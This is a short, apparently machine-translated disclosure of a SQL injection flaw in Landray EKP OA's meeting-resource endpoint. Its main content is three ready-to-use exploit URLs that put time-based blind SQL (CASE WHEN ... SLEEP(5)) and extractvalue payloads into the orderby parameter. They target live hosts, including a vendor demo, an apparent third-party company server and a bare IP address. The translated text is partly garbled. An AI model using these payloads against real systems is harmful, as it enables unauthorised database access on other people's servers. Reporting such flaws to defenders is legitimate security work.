

# Landray(EKP) SQL injection

Affected version: new 

Time of discovery: 2020-12-21 

Found by: MIa0a 

Solution: filter dangerous characters and use pre-compilation

## **A** **.** **The testing process** **:**

1. Find Lanling OA official website, apply for trial

2. Use the demo environment he gave

3. Log in to the background to get the cookie ( poc at the end of the text )

4. Replace cookie 

5.  Replace Referer

   

Conference Office

## **Two** **,** **Success** **Stories** **(** **3** **Ge** **)** **:**

Vulnerability link1 :

http://oa.wanxinbd.com:8081/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=(CASE WHEN (8233=8233) THEN SLEEP( 5) ELSE 8233 END)& ordertype = down&s_ajax = true

Vulnerability link 2:

http://demo.landray.com.cn:80/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=(CASE WHEN (2387=2387) THEN SLEEP( 5) ELSE 2387 END)& ordertype = down&s_ajax =true

Vulnerability link3 :

[http://120.79.196.195:8888/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=extractvalue*&ordertype=down&s_ajax=true](https://translate.google.com/translate?hl=zh-CN&prev=_t&sl=auto&tl=en&u=http://120.79.196.195:8888/km/imeeting/km_imeeting_res/kmImeetingRes.do%3FcontentType%3Djson%26method%3DlistUse%26orderby%3Dextractvalue*%26ordertype%3Ddown%26s_ajax%3Dtrue)

